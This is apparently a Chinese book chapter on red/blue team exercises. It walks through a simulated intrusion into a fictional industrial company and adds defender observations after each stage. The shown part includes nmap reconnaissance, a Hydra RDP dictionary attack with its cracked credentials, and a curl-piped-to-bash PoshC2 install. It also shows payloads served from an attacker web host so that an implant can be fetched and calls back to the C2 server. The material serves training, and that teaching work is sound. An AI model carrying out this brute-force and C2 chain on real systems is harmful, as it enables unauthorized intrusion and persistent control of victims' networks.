# 16 红队/蓝队演练

是时候通过黑客工具和攻击策略来享受一些乐趣了，因为在本章中，我们将讨论红队/蓝队演练，并且我们将亲自执行一些活动。到本章结束时，你将更熟悉红队成员基于现实世界攻击等效物常用的**战术、技术和程序（TTPs）**。

本章将涵盖以下主题：

- 红队 vs 蓝队 vs 渗透测试
- 红队/蓝队示例演练，攻击*公司 Z*

## 红队 vs 蓝队 vs 渗透测试

我们在*第 14 章，不同类型的网络安全评估*中简要讨论了红队演练与渗透测试之间的区别，但让我们从实际的角度来看看。在实践中，这两种评估有何不同，以及蓝队在整个大局中扮演什么角色？

## 渗透测试的目标——不惜一切代价达成目标

通常，渗透测试是受时间限制的技术评估，旨在实现特定的最终目标——例如，窃取敏感数据或某种秘密配方，获得**信息技术（IT）**或**运营技术（OT）**域管理员权限，修改生产系统，或抓取生产数据。渗透测试演练中使用的 TTPs 通常源自现实世界的攻击，但不一定针对渗透测试参与方的目标专门开发或设计。

理想情况下，当你认为万事俱备（“你的鸭子排成一行”）并希望有人来验证这一假设时，才应进行渗透测试。渗透测试可以是基于网络的、物理的、社会工程的、钓鱼的或专注于应用程序的攻击，或者是所有这些攻击的组合。

渗透测试的结果通常是一份报告，其中列出了目标环境中发现的漏洞以及渗透测试人员利用所发现漏洞的方法。渗透测试报告（结果）通常用于在风险评估中加入可能性因素，从而更好地规划缓解工作，因为结果将显示哪种风险最有可能被成功利用。

## 红队演练的目标——模拟现实世界对手的 TTPs

与渗透测试不同，红队演练是长期的或有时是持续性的基于活动的评估，旨在尽可能密切地模拟目标在现实世界中的对手 TTPs，目的是提高组织的安全检测能力、响应程序以及针对这些攻击的整体防御质量。通常，负责检测、响应和防御活动的团队是组织的蓝队。

红队参与的结果（报告）将用于增强组织的检测、响应和防御能力，因为演练指出了这些方面的弱点。

## 蓝队的目标——尽可能快速检测并响应安全事件

蓝队就是那些始终保持在线、随时待命，并应时刻警惕任何恶意活动迹象的人。蓝队将使用各种工具、技术以及支持和发现系统，这些系统使他们能够检测/发现其所监控环境中的异常行为。公司可能会决定在红队演练或渗透测试期间不通知其蓝队，以测试其响应能力和有效性。

让我们来看一个动手实践的红队/蓝队演练。

## 红队/蓝队示例演练，攻击公司 Z

在本节中，我们将概述执行以工业控制系统（ICS）为中心的红队/蓝队演练所涉及的步骤和活动。该演练围绕一家虚构的组织展开，恰如其分地命名为公司 Z。我们将在以下各节中回顾演练的前置条件、准备工作、实施和结果。

## 红队策略

红队的策略很简单：使用演练目标潜在对手可能使用的相同战术、技术和程序（TTPs）达成参与目标。时间不是一个因素，因此我们可以花费任意多或任意少的时间。目标是尽可能保持低调，但被检测到不应被视为失败，而应作为目标蓝队能力胜任程度的指标。

## 蓝队准备

俗话说得好，作为安全的防御者，我们需要一直是对的，而攻击者只需要对一次。这对我们的蓝队也适用，他们需要时刻警惕，并且需要确保他们的工具运行正常并经过良好调优，以便能在恶意行为者或内容出现在环境中时捕获它们。这是一项艰巨的任务，但这里有五条一般性建议可以帮助蓝队为日常活动做准备：

- **理解正在监控的环境**

    对蓝队来说，最重要的是理解正在监控的环境。有哪些系统、设备和设备到位，目前应用了哪些类型的控制措施？我们对环境及其在该环境中通常发生的情况了解得越多，就越容易在该环境中发现异常活动。

- **确保相关数据正在被收集且可被分析**

    蓝队会对来自受监控环境的数据做出反应。拥有适当的收集和分析工具来帮助收集、关联和分析与安全相关的数据，对于蓝队运营的成功至关重要。投资一套**安全信息与事件管理（SIEM）**解决方案，并针对适当选择的攻击场景对其围绕的环境进行调优。

    此外，拥有日志记录和跟踪解决方案供蓝队记录其发现和活动，将允许日后审查这些发现和活动，有助于更好地监控环境的安全。

- **使用适合受监控环境的工具**

    蓝队所需的工具类型由受监控的环境决定。需要选择那些能最大程度提供与环境交互视图的工具，并且团队成员应该对这些工具了如指掌。

- **蓝队中要有经验丰富的成员**

    与其他大多数事情一样，执行安全监控的经验是蓝队最有价值的工具。知道正常行为和恶意行为之间的区别需要经验，因此蓝队至少一半的成员应该具备监控环境安全的足够经验。他们可以教导其他人，使其他人也变得熟练。


- **采取“假设已失陷”的立场**

  在处理蓝队活动时，应以系统已被攻陷为前提假设。采取“假设已失陷”的立场，有助于将团队的心智模式转向发现恶意行为者和恶意内容。团队成员应将时间用于证明入侵正在进行，而不是试图证明一切正常且安全。

我们现在将开始实际的攻击演练。这部分内容将从红队视角出发，逐步讲解攻击的各个阶段。在每个阶段结束时，我会指出蓝队可以如何检测该阶段的活动。

## 攻击

正如我们在 ICS 网络杀伤链中讨论的，对工业环境的攻击通常是对通用 IT 环境攻击的延伸。攻击往往始于对企业网络的攻陷，随后攻击者会寻找途径进入工业环境（除非他们运气足够好，找到的公司其企业网络和工业网络/环境是同一体系的）。只有当成功从企业侧横向移动到工业侧时，攻击策略和方法才开始出现差异。即使在 OT 网络上，攻击战术、技术和程序（TTP）在大多数情况下仍与企业侧相似；然而，真正的攻击目标在此处才会展开。对企业系统的攻击只有一个目标——找到通往工业环境的入口（一旦攻击者切换到 OT 侧），目标就会多样化，从窃取专有信息或产品秘密配方，到更阴险的目的，如生产中断，甚至对设备造成物理损坏或伤害人员。

正如 ICS 杀伤链额外增加了若干针对工业攻击最终目标的步骤一样，执行红队演练的方法也需要增加相应步骤。以下是我们在 *Company Z* 执行红队任务时将采取的步骤：

- 准备工作
- 侦察（*Company Z* 侦察）
- 初步立足——攻陷企业网络
- 企业网络侦察
- 在企业网络中的横向移动
- 切入工业网络
- 工业网络侦察
- 实现演练目标

最后，我们将审视此次任务的结论，并讨论演练中的经验教训。

## 准备工作

红队演练应当明确定义，并妥善处理以下细节：

- **范围与限制**

  哪些**互联网协议（IP）**地址/**子网**、设备、网络和地点属于范围内，以及哪些类型的攻击是被允许的。我们可以执行网络攻击、物理攻击、钓鱼、社会工程攻击、无线攻击、模糊测试等吗？别忘了讨论允许使用的工具类型。我们可以使用扫描器、模糊测试工具或漏洞利用框架吗？或者也可以使用恶意软件、零日漏洞等？

  限制生产环境中敏感设备的使用可能也有意义，明确界定哪些是禁止区域；或者采取相反的方法，清晰且排他性地定义生产网络中**属于范围内**的部分。

- **时间框架**

  虽然红队任务通常是长期性的，但在评估的某些阶段何时执行仍需要一定的约束。你可能不希望在努力满足生产需求的同时，有人可能在使系统崩溃。此外，你可能希望确保蓝队有一定程度的在场，或者让攻击轮换经过所有团队成员，以便更好地评估整个蓝队。

  严格计时工业攻击部分，并将其安排在生产停机期间，或者至少让部分生产人员参与进来，也是一个好主意。在出现意外时，有人在现场并了解情况可能会派上用场。

- **紧急联系人**

  在出现问题时，定义双方各自的紧急联系人。

## 目标

这里讨论的不是红队演练对目标方（Company Z）的目标。正如之前所讨论的，进行红队评估的目的是测试组织蓝队的有效性。这里指的是红队的目标；何时可以认为任务完成；最终目标；终点线。因此，红队的目标是渗透进 Company Z 的工业环境，并在名为 Test_Left 的可编程逻辑控制器（PLC）上安装新的固件。除公司名称外没有提供任何信息，且所有工具、方法和战术均可使用。一旦进入工业环境，只有工作站、服务器和前述的 PLC 在范围内——其他一切均被禁止。

任务大纲应被良好记录、双方一致同意并签署。这确保双方都不会遇到意外或误解。

明确了这些，让我们从对公司 Z 执行侦察开始红队任务。

## 侦察

红队任务的侦察阶段是我们尽可能多地收集关于目标相关信息的地方。至少，我们应该弄清楚目标的物理存在（他们的位置），以及其网络存在（他们拥有的公网 IP 地址范围）和所采用的技术——例如，他们是西门子/罗克韦尔/艾默生体系吗？他们是否运行分布式控制系统（DCS）？他们如何将技术堆栈的各部分联系在一起？等等；以及所用技术的具体细节（品牌、补丁级别/软件版本、维护实践、供应商、上下游合作伙伴等）。侦察通常是一个持续的过程，在整个任务过程中不断构建和扩展。你可能从攻击单一地点开始，但随后发现需要获取第二个地点，或可能允许在第一个地点攻击无效时提供访问权限的供应商或承包商的信息。

## 查找公司的公网 IP 地址范围

为了简化示例中的红队任务，我们假设 Company Z 在单一物理地点运营，我们已经找到了该地址，并进行了 Google 街景监控以评估我们将面对的情况。

在我们拿着发光的通用串行总线（USB）驱动器冲入 Company Z 的生产工厂之前，让我们首先看看能否在不闯入的情况下获得立足点，利用互联网这个虚拟领域。我们将通过识别公司 Z 拥有的互联网 IP 地址（公网 IP 地址范围或无类别域间路由（CIDR））来评估公司 Z 的网络存在。我们可以使用该列表评估是否有系统在这些地址上响应，甚至是可能存在配置错误从而让我们得以进入的情况。

要查找一家公司使用的公网地址范围，我们对该公司网站 IP 地址进行 WHOIS 查询。要查找公司 Z 网站的 IP 地址，我们首先对 companyZ.com 执行 nslookup 操作，如下所示：

```
nslookup companyZ.com
Server:        1.1.1.1
Address:       1.1.1.1#53

Non-authoritative answer:
Name:  companyz.com
Address: 10.0.0.120
```

手持其网站的公网 IP 地址，我们进行 WHOIS 查询以了解公司公网备案的详细信息，如下所示：

```
$ whois 10.0.0.120
#
# ARIN WHOIS data and services are subject to the Terms of Use
# available at: https://www.arin.net/resources/registry/whois/tou/
#
# If you see inaccuracies in the results, please report at
# https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
#
# Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
#
NetRange:      10.0.0.0 - 10.0.0.255
CIDR:          10.0.0.0/24
NetName:       CompZ
NetHandle:     NET-10-0-0-0-1
```


| 父节点 | NET0 (NET-0-0-0-0-0) |
|---|---|
| 网络类型 | 直接分配 |
| 源AS | |
| 组织 | Z 公司 - 强攻工控系统 |
| 注册日期 | 2014-01-13 |
| 更新时间 | 2017-03-12 |
| 参考链接 | https://rdap.arin.net/registry/ip/10.0.0.0 |

通过两次简单的公开信息查询，我们现在得知 *Z 公司* 拥有公共 IP 地址范围 10.0.0.0 - 10.0.0.255。

不过请注意，聘请你进行红队演练的公司通常会指定 IP 地址范围（合同边界）。然而，在本练习中，我们将忽略这一事实，同时也忽略 10.0.0.0 是 A 类私有地址范围这一事实。

## 对网络范围进行初步扫描

既然我们已经知道 *Z 公司* 拥有的 IP 地址范围，我们便可以开始探测该范围，以查找暴露的服务和弱点。我们将保持简单，使用 **Nmap** 来完成这项任务。我们执行以下扫描：

```
$ sudo nmap 10.0.0.0/24 -n -Pn --open
Host discovery disabled (-Pn). All addresses will be marked
'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-22 19:39 MST
```

我们告诉 **Nmap** 使用 `-n` 不进行 **域名系统（DNS）** 查询，使用 `-Pn` 将 10.0.0.0/24 范围内的所有 IP 地址视为在线（互联网上的设备通常被配置为显示为离线），并使用 `--open` 仅显示开放端口。当扫描完成时，结果令人极度失望，正如我们所见：

```
... Nmap scan report for 10.0.0.120
Host is up (0.00071s latency) .
Not shown: 999 filtered ports
Some closed ports may be reported as filtered due to --defeat-
rst-ratelimit
PORT STATE SERVICE
80/tcp open http

Nmap done: 256 IP addresses (256 hosts up) scanned in 1024.26 seconds
```

此外，查看那个唯一的开放端口发现了一个简单的静态网页——没有特别之处，没有动态内容，也没有任何可供攻击的 Web 应用程序，正如我们所见：



图 16.1 – Z 公司坚不可摧的网站

我们对运行在 10.0.0.120 上的服务器运行了 Nikto、Nessus 和 Nmap 扫描，但无法找到服务器、Web 服务或运行在 Web 服务器上的网页的任何漏洞。是时候开始考虑实地访问工厂了。在准备现场行程的同时，我们应该设置一个定期扫描，以查看我们能否检测到 *Z 公司* 公共存在的变化。

## 设置定期扫描

为了定期验证 *Z 公司* 的公共存在是否发生变化（突然出现的额外服务器或开放端口），我们将设置一个简单粗糙的每日端口扫描，以查找 *Z 公司* 公共姿态的变化。为此，请遵循以下说明：

1. 在 Kali Linux 中运行 `sudo gedit /usr/bin/daily_scan.sh` 创建以下脚本，并在脚本中输入以下命令：

```bash
#!/bin/bash
mkdir /opt/daily_scan
today=$(date +%Y-%m-%d)
yesterday=$(date -d yesterday +%Y-%m-%d)
/usr/bin/nmap -T5 -oX /opt/daily_scan/scan_$today.xml -n -Pn 10.0.0.0/24 > /dev/null 2>&1
if [ -e /opt/daily_scan/scan_$yesterday.xml ]; then
    /usr/bin/ndiff /opt/daily_scan/scan_$yesterday.xml /opt/daily_scan/scan_$today.xml > /opt/daily_scan/changes_$today.txt
fi
```

在脚本中，我们执行每日 Nmap 扫描并保存带有今日日期的结果：`nmap -T5 -oX /opt/daily_scan/scan_$today.xml -n -Pn 10.0.0.0/24`。然后使用 `ndiff /opt/daily_scan/scan_$yesterday.xml` 将今天的结果与昨天的扫描结果进行比较，并将任何差异存储在 `/opt/daily_scan/changes_$today.txt` 中。

2. 编辑完 Bash 脚本后，保存文件并关闭 `gedit`。现在，我们将通过运行 `sudo vi /etc/crontab` 命令并在 crontab 文件底部添加以下行，来设置一个 crontab 任务，使该脚本每天凌晨 1 点运行：

```
0 1 * * * root /usr/bin/daily_scan.sh
```

这将指示 Kali Linux 每天凌晨 1 点运行我们的 shell 脚本。注意：crontab 文件是在 Linux 系统上计划重复任务（cron 作业）的一种方式（[https://man7.org/linux/man-pages/man5/crontab.5.html](https://man7.org/linux/man-pages/man5/crontab.5.html)）。

在我们开始探索不同的攻击方法时，现在我们已经针对 *Z 公司* 公共姿态的变化设置了检查机制。

## 蓝队观察

蓝队通常无法检测有人对公共 IP 地址范围和物理地址进行公开侦察。然而，他们应该定期检查这些公共资源是否泄露了过多信息。对你的域名进行 WHOIS 查询，并检查敏感信息，如公司电子邮件地址、你不想暴露的电话号码，甚至密码（是的——这种情况确实发生过）。

一旦攻击进入扫描系统阶段，蓝队应该开始注意到防火墙日志中弹出额外的日志。当然，如果你的网页通常有大量流量，或者如果攻击者行动缓慢，这种额外的流量可能不会引起警报。鉴于大多数公共 IP 地址每天都会被多次进行端口扫描，且这些扫描通常不会导致被入侵，此类噪音变得司空见惯。

## 发现新 IP/服务 – 开始攻击

就在我们收拾行李准备前往 *Z 公司* 生产工厂进行公路旅行时，我们注意到已经运行了几天的每日脚本检测到 *Z 公司* 公共网络存在的变化。以下是我们在 Kali Linux 机器上生成的 `ndiff` 文件的内容：

```text
cat /opt/daily_scan/changes_2021-02-22.txt
-Nmap 7.91 scan initiated Mon Feb 22 20:43:47 2021 as: /usr/bin/nmap -T5 -oX /opt/daily_scan/scan_2021-02-22.xml -n -Pn 10.0.0.120,125,130,150,157
+Nmap 7.91 scan initiated Mon Feb 22 20:45:43 2021 as: /usr/bin/nmap -T5 -oX /opt/daily_scan/scan_2021-02-22.xml -n -Pn 10.0.0.120,125,130,150,157

10.0.0.157:
-Not shown: 1000 filtered ports
+Not shown: 999 filtered ports
  PORT      STATE SERVICE       VERSION
+3389/tcp  open  ms-wbt-server
```

输出显示 Nmap 扫描发现了一个额外暴露的 IP 地址：`10.0.0.157`。该 IP 地址有一个开放的端口 3389，通常用于 Microsoft **远程桌面协议（RDP）**。

## 使用 Hydra 测试常见用户名和密码

让我们看看 *Z 公司* 公共 IP 地址范围内新出现的服务器是否有任何可利用的漏洞。我们运行了 Nmap 和 Nessus 扫描，甚至盲目地在服务器上尝试了 **Metasploit** 中的 **BlueKeep 模块**（https://pentest-tools.com/blog/bluekeep-exploit-metasploit/），但都没有成功。是时候改变策略，看看我们是否能发现一个非常常见的配置错误：容易猜解的凭据。很可能是有人启动了测试或开发服务器并意外地将其暴露在互联网上。在这种情况下，发现更多安全卫生最佳实践中的疏漏（例如弱密码）并不罕见。

在下一节中，我们将使用强大的暴力破解工具 **Hydra**（https://github.com/vanhauser-thc/thc-hydra）在 RDP 服务器上测试常见的用户和密码。

我们将对 RDP 服务执行字典攻击。该攻击将尝试常见的用户名和密码，直到列表耗尽或找到一组可用的凭据为止。以下命令将尝试提供的单词列表中的每个用户名和密码组合：

```
$ hydra -L /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top1000.txt 10.0.0.157 rdp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-22 17:08:47
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
```


```
[DATA] max 4 tasks per 1 server, overall 4 tasks, 827172 login tries (1:828/p:999), ~206793 tries per task

[DATA] attacking rdp://10.0.0.157:3389/

[STATUS] 1040.00 tries/min, 1040 tries in 00:01h, 826133 to do in 13:15h, 4 active

[STATUS] 1050.33 tries/min, 3151 tries in 00:03h, 824022 to do in 13:05h, 4 active

[STATUS] 1053.57 tries/min, 7375 tries in 00:07h, 819798 to do in 12:59h, 4 active
...
```

如你所见，这将耗时很长（超过13小时）。但在红队演练中，我们有时间——目标是进入系统，而不是求快。

不过，Hydra 最终会找到一组可用于该服务器的凭据，如下所示：

```
...
[3389] [rdp] host: 10.0.0.157  login: reports_user  password: Password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-22 17:31:19
```

请注意，用户名和密码本身并不罕见，但必须找到两者的组合，才使得此类攻击的挑战性大大增加，耗时也更长。如果你能预先掌握其中一项——用户名或密码——那将极大地有所帮助。

令我困惑的是，现代 Windows 系统在默认安装时竟然仍然允许使用 `Password1` 这样简单的密码。

为了展示这种攻击的嘈杂程度，请看下面的截图，它展示了我们执行字典攻击时企业防火墙的运行日志：



图16.2 – 暴力破解攻击期间的防火墙日志

其中有数千条到 RDP 服务器的成功连接记录。

有了用户名和密码，接下来让我们攻击*Z公司*的企业网络。

## 蓝队观察

与我们之前执行端口扫描时产生的事件一样，成功连接的日志常常会与其他日志混杂在一起，除非专门查找此类事件，否则很难被发现。但令人警惕的是，服务器暴露出来，可以从互联网访问。一定是有人配置了企业防火墙，允许通过 3389 端口进行入站连接。这可能是残留的端口例外，仅仅因为选择了错误的 IP 地址而导致内部服务器暴露。

这里给蓝队的三点启示是：

- 蓝队的**安全信息和事件管理/安全运营中心（SOC）**解决方案应进行调整，以开始显示过多的成功连接。
- 企业防火墙的防火墙规则需要定期审查和验证。
- 应建立一个暴露 IP 地址监控服务。像**Shodan的** `https://monitor.shodan.io/` 这样的服务会密切关注公司暴露的服务器/服务的变化，并针对这些变化发出警报。

## 初始立足点 – 攻陷企业网络

我们现在有了一组可用的凭据，可以登录*Z公司*的 RDP 服务器。我们将使用一个名为 **Remmina** 的 Linux RDP 客户端来完成此操作。Remmina 不会随 Kali Linux 默认安装，因此我们需要使用以下命令来安装它：

```
sudo apt install remmina
```

现在我们可以启动 Remmina 并指定远程服务器和凭据，如下所示：



点击**保存并连接...**，我们就进去了！这通过以下截图得以确认：



现在，我们该如何利用新获得的访问权限？很可能有人会发现错误并关闭防火墙例外，或禁用此服务器上的 RDP 服务。此外，RDP 会话很难保持隐秘——我们很可能会意外暴露自己的存在。我们需要建立一种隐秘的方式进入系统，同时也要能持久化，以防 RDP 访问方式消失。实现这些需求的方式是使用一个日益流行的**命令与控制（C2）**框架：**PoshC2**。

### 使用 PoshC2 建立进入 Z 公司企业网络的持久且隐蔽的连接

本节并非要作为使用 PoshC2 框架的完整教程，因为许多在线资源都可以提供帮助。我们只是要浅尝辄止地了解该工具的功能。不过，我建议熟悉 PoshC2，因为它正被攻击者越来越多地使用。

我们使用 C2 设置的原因是为了利用植入体——安装在目标系统上的小型代理程序，它们允许我们在受感染系统和 C2 服务器之间建立隐蔽信道。植入体内置了多种功能，帮助我们执行各种攻击和活动，非常适合隐蔽侦察。此外，C2 环境支持设置持久化，并可以帮助我们扩展和穿越目标网络，所有这些都可以方便地在 C2 指挥中心终端中完成。让我们看看 PoshC2 的实际使用，但在此之前，我们需要先安装它。要安装 PoshC2，我们从 Kali Linux **虚拟机（VM）** 运行以下命令：

```bash
curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash
```

这一条命令就能完成所有 PoshC2 文件的安装。

PoshC2 的安装程序完成后，我们必须使用 posh-project -n Book_ENT-C2 创建一个项目，如下面的截图所示，之后我们可以使用 posh-server 启动 C2 服务器：



图16.5 – PoshC2 服务器启动并运行

如图16.5的输出所示，PoshC2 会生成各种负载，并将它们存储在 /var/poshc2/Book_ENT-C2/payloads/ 文件夹中。我们将把这些负载复制到 Kali Linux 机器的 /var/www/html/files/payloads 文件夹中，以便通过 apache2 Web 服务器将其暴露。以下输出显示了负载文件的复制和 apache 服务的启动：

```
$ sudo mkdir /var/www/html/files/
$ sudo cp /var/poshc2/Book_ENT-C2/payloads/ /var/www/html/files -r
$ sudo service apache2 start
```

就这样，我们准备从 Z 公司的终端服务器上获取一个合适的 PoshC2 植入体负载。

在我们进入测试服务器的 RDP 会话中，打开 Internet Explorer 并导航到 http://222.222.222.222/files，如下图所示：



图16.6 – Kali Web 服务器上的 PoshC2 负载列表

让我们保持简单，下载 `payload.bat` 文件。这是一个批处理文件，它将运行 PoshC2 的 PowerShell 版本的植入体。你可以在下面的截图中看到下载过程：



图16.7 – 已下载的 Payload.bat

如果我们用记事本打开（编辑）`payload.bat` 文件，可以看到该批处理文件的内容，如下所示：



图16.8 – payload.bat 的内容

运行它时，我们可以看到植入体回连到 Kali 机器上的 PoshC2 服务器，如下所示：



图16.9 – PoshC2 植入体连接到服务器

